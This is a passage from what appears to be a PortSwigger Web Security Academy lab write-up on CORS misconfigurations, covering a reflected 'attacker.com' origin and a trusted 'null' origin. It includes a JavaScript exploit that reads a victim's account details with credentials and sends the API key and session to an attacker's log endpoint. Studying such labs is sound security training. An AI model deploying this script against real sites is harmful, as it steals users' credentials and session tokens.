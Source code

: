 This will returns the response :

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: attacker.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 166

{
  "username": "wiener",
  "email": "test.gw@gmail.com",
  "apikey": "fujGcQmWNivyIdWgGhiKWQZNqd9vyUWu",
  "sessions": [
    "axwWRpk3H1Z37rL5ysS4vAW31LisMqJ4"
  ]
}
```


We will demonstrate its impact by creating a script.

```javascript
<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0ab200f103c198a382b3e30f00e5002f.web-security-academy.net/accountDetails',true); 
req.withCredentials = true; 
req.send(); 
function reqListener() 
	{ 
		location='/log?key='+this.responseText; 
		}; 
</script>
```

----

#### CORS vulnerability with trusted `null` Origin
This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts the "null" origin.

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "B2bK1uJywYOc0uhdNiCucp1xGl53X3Tn",
  "sessions": [
    "oC7lzOn5DJqfkKfdHlAN5MbmTuNSE0CQ"
  ]
}
```
